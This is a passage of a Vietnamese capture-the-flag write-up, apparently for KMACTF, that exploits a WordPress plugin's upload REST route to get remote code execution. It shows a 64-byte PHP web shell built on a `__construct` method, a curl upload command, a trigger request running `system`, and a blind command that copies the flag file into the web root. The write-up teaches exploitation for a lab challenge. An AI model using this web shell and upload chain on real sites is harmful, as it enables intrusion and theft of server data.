 Vậy là chúng ta có thể gọi upload bằng query : 
`?rest_route=/safe-upload/v1/upload`

![image](https://hackmd.io/_uploads/rJhtnoU2xe.png)

Upload thành công.
![image](https://hackmd.io/_uploads/H1Ma2sIhxl.png)

Vậy giờ tìm cách để rce, bypass filter và size 64byte.

Thì trong magic method của PHP có function magic method `__construct` là hàm sẽ được chạy khi chúng ta khởi tạo 1 object.
Vậy thì chúng ta có thể lợi dung nó với cách gọi hàm `$a($b)` để RCE. (Dùng payload này là do nó ngắn để ko bị dính quá 64 kí tự)
Ví dụ :
![image](https://hackmd.io/_uploads/ryHFCsI3gx.png)

Và để control thì chúng ta có thể dùng `$_GET[1]($_GET[2])` để truyền tham số vào bằng requests.


payload : 

```php
<?php class cc{function __construct(){$_GET[1]($_GET[2]);}}
```
upload : 

```bash
curl -X POST "http://localhost:8082/?rest_route=/safe-upload/v1/upload" -F "file=@123.txt"
```
![image](https://hackmd.io/_uploads/SJAMynLngg.png)
```HTTP=
GET /?wpsight-api=cc&1=system&2=ls HTTP/1.1
Host: localhost:8082
Connection: keep-alive

```
![image](https://hackmd.io/_uploads/HyBdk2Lnex.png)

Vì nó luôn `die(1)` nên phải blind exploit.
get Flag bằng cách copy file `flag.php` ra `/var/www/html`

`cat /var/www/html/flag* |base64 > /var/www/html/duc193_xxxxxx.txt`
Được flag local : 
![image](https://hackmd.io/_uploads/ryb7eh83ex.png)

Flag server : 
![image](https://hackmd.io/_uploads/B1MRx2U3xl.png)
![image](https://hackmd.io/_uploads/H1Zy-nLngl.png)

Flag : `KMACTF{Y3s_it's__1dayupload_php_class_4nd_ex3cut3_it_⚆_⚆}`

Còn 1 payload nữa đó chính là sử dụng hàm `include`
